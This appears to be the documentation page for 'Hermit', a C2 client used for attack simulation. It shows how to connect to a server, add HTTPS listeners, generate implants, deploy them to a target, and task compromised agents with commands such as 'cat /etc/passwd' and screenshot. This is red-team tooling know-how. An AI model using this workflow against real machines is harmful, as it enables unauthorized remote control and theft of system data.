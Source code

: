 +++
title = "C2 Client"
date = 2024-01-02
[extra]
toc=true
+++

## Run (Connect to the C2 Server)

At first, make sure that [the C2 server](./c2-server) has already started. It's running on the port `9999` by default.  
Now run the `client` command to connect the C2 server.  

```sh
$ hermit client -H 0.0.0.0 -P 9999


        ┓┏┏┓┳┓┳┳┓┳┏┳┓
        ┣┫┣ ┣┫┃┃┃┃ ┃
        ┛┗┗┛┛┗┛ ┗┻ ┻
          C2 CLIENT
      +++++++++++++++++
      DEVELOPED BY HDKS

[+] Handshake has been completed.
[+] Connected to C2 server (ws://0.0.0.0:9999/hermit) successfully.

Hermit $
```

After connecting, the client console will start.

<br />

## Help

```sh
Hermit $ help
```

<br />

## Listener

### 1. Add New Listener

Hermit currently supports the `HTTPS` listener only.  
You need to specify the domains (`-d`) for HTTPS self-signed certificates.

```sh
Hermit $ listener add -d localhost,my-c2-server.com
```

Once the listener is added successfully, you can see it with the `listeners` (or `listener list`) command.

```sh
Hermit $ listeners
```

### 2. Start Listener

After adding a listener as the previous section, you can start it by the `listener start <ID or Name>` command.

```sh
Hermit $ listener start 1
```

### 3. Stop Listener

```sh
Hermit $ listener stop 1
```

### 4. Delete Listener

Listeners that you don't plan to use can be deleted using the `delete` command.

```sh
Hermit $ listener delete 1
```

If you want to delete all listeners, specify `all` to the second argument as below:

```sh
Hermit $ listener delete all
```

<br />

## Implant

### 1. Generate Implant

You can generate implants with `implant gen` command with specifying the listener URL (`-u`) that you've started the previous section. The agent will connect to this listener URL.

```sh
Hermit $ implant gen -u https://my-c2-server.com:4443/
```

After generating, you can see the information by `implants` (or `implant list`) command.

```sh
Hermit $ implants
```

Now you need to transfer this implant to the target computer and execute it.

### 2. Delete Implant

```sh
Hermit $ implant delete 1
```

If you want to delete all implants, specify `all` to the second argument as below:

```sh
Hermit $ implant delete all
```

<br />

## Agent

When the implant is executed, the agent will start and attempt to connect to your C2 server's listener.  
If it succeeds, the agent has been registered in the C2 server. You can check if the agent has been registered correctly with the `agents` (or `agent list`) command.

```sh
Hermit $ agents
```

### 1. Interact with Agent

To interact with the agent for the attack simulation, you can run the `agent use <ID or Name>` command.

```sh
Hermit $ agent use 1
```

This command switches to the agent mode.

### 2. Agent Mode: Send Tasks

After switching the agent mode, you can simulate various attacks e.g. enumeration, shell command, screenshot, etc.

```sh
Hermit [agent: agent_0123] $ whoami
Hermit [agent: agent_0123] $ cat /etc/passwd
Hermit [agetn: agent_0123] $ screenshot
```

### 3. Quit Agent Mode

To quit the agent mode and return the home console, run the `exit` command.

```sh
Hermit [agetn: agent_0123] $ exit
```

### 4. Delete Agent

```sh
Hermit $ agent delete 1
```

If you want to delete all agents, specify `all` to the second argument as below:

```sh
Hermit $ agent delete all
```

<br />

## Exit

To quit the client console, run the `exit` command.

```sh
Hermit $ exit
```
